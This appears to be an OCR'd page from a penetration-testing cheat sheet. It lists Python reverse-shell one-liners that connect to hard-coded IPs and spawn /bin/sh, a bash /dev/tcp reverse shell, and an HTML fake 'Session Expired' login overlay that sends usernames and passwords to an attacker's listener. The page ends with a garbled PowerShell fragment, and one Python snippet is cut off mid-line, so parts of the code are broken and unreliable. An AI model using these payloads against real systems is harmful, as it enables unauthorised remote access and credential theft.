 \[two]

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

\[3]

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

\[4]

```python
python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

\[5]

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```

\[6]

```python
import os,pty,socket;s=socket.socket();s.connect(("10.2.81.146",4546));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

\[7]

```python
import os; os.system("bash -i >& /dev/tcp/10.2.81.146/4547 0>&1")
```

#### Malicious Login form to send details to a listener

```html
<div style="position: absolute; left: 0px; top: 0px; width: 800px; height: 600px; z-index: 1000;
background-color:white;">
Session Expired, Please Login:<br>
<form name="login" action="http://attackerIP:port">
<table>
<tr><td>Username:</td><td><input type="text" name="uname"/></td></tr>
<tr><td>Password:</td><td><input type="password" name="pw"/></td></tr>
</table>
<input type="submit" value="Login"/>
</form>
</div>
```

#### Reverse shell one liner – Powershell


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"